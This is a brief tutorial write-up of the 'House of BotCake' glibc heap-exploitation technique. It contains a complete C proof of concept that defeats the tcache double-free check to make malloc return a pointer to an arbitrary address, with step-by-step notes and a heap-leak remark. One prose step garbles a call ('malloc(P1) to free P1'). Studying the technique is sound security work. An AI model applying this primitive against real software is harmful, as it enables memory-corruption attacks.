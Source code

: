 # House of BotCake
> LongChampion, 23/03/2020

This attack can bypass tcache double free checking by taking advantages of the limit that each tcache_bin can only contain 7 chunks at maximum.
```c
#include <stdlib.h>

char SECRET[] = "This is a top secret!";

int main()
{
    void *A[7];
    for (long i = 0; i < 7; ++i)
        A[i] = malloc(0x100 - 8);
    void *P1 = malloc(0x100 - 8);
    void *Victim = malloc(0x100 - 8);
    void *P2 = malloc(0x100 - 8);

    for (long i = 0; i < 7; ++i)
        free(A[i]);

    free(Victim);
    free(P1);
    void *pop = malloc(0x100 - 8);
    free(Victim);

    void *first = malloc(0x120 - 8);
    *(long long *) (first + 0x100) = (long long) &SECRET;
    void *second = malloc(0x100 - 8);
    void *Target = malloc(0x100 - 8);
}
```
First, we need to allocate 7 chunks with equal size to full up one tcache_bin. Then we allocate `P1`, `Victim` and `P2` in that order. Next, we free 7 chunk to make tcache bin full. So, the next `free` call will push `Victim` into smallbin instead of tcache_bin. We also call `malloc(P1)` to free `P1` and to hidden `Victim` by consolidate it with `P1`. To free `Victim` again, one way is pushing it into tcache_bin. How? Very simple, just pop one chunk from tcache_bin then `free(Victim)`. The final steps is easy to understand so I will not explain anymore.

## Note
In pratice, please make sure that you are following all steps above. Try to create a new method is not recommend!  
The ideal of this attack is similar to `fastbin_dup_consolidate`: push one chunk into different bins.  
When assigned, `Target` pointer will point to the begining of `SECRET`, but this string will be corrupted because the `key` field of `Target` chunk is overwrited. Don't disappointed! I use GDB to trace and know that this value is very close to the begining of heap segment. So, the overwrite can lead to a heap leak, not just an unwanted effect.
